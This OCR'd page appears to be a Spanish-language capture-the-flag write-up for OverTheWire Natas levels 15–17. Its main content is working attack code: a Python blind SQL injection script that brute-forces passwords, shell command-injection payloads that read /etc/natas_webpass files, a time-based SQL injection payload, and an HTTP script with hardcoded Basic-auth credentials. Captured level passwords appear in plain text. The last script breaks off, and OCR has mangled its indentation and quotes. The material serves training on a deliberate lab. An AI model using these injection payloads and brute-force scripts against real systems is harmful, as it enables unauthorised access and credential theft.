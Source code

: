 ~~~
for x in chars:
	r = requests.get(target+'?username=natas16" AND password LIKE BINARY "%'+x+'%" "')
	if r.content.find(trueStr) != -1:
		exist += x
		print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
	for c in exist:
		r = requests.get(target+'?username=natas16" AND password LIKE BINARY "' + password + c + '%" "')
		if r.content.find(trueStr) != -1:
			password += c
			print 'Password: ' + password + '*' * int(32 - len(password))
			break

print 'Completed!'
~~~

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

# Natas16
Obtener todos los caracteres excepto los números:
~~~
$(expr substr $(cat /etc/natas_webpass/natas17) 1 1)
a{$(($(expr substr $(cat /etc/natas_webpass/natas17) 1 1)-6))}
~~~
obtener en caso de letras

~~~
a{$(($(expr index $(expr substr $(grep -i Englishing dictionary.txt) 2 4) $(expr substr $(cat /etc/natas_webpass/natas17) 21 1))+0))}
$(expr substr $(cat /etc/natas_webpass/natas17) 5 1) #get the 5th letter of the password
a{$((1+1))} #used in grep as a regex, to find the words containing (1+1) times of “a” => “aa”
$(expr index “b” “abc”) #output the index of “b” in “abc” => 2
~~~

8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

# Natas17
Código de inyección MySQL
~~~
N0tAC0ntent” union select 1,if ((select password from users where CHAR_LENGTH(password)=32 limit 0,1) like binary “%”,sleep(2),1) —
~~~
utilizamos es siguiente script
~~~
import httplib,datetime
from base64 import b64encode
from urllib import quote

def checkPassword(password):
httpClient = None
try:
sql=’N0tAC0ntent” union select 1,if ((select password from users where CHAR_LENGTH(password)=32 limit 3,1) like binary “‘+password+’%”,sleep(0.5),1) — ‘ # change “3” from 0-3 to select which password to guess
startDatetime = datetime.datetime.now()
userAndPass = b64encode(b”natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw”).decode(“ascii”)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass }
httpClient = httplib.HTTPConnection(‘natas17.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?debug=a&username=’+quote(sql), headers=headers)
~~~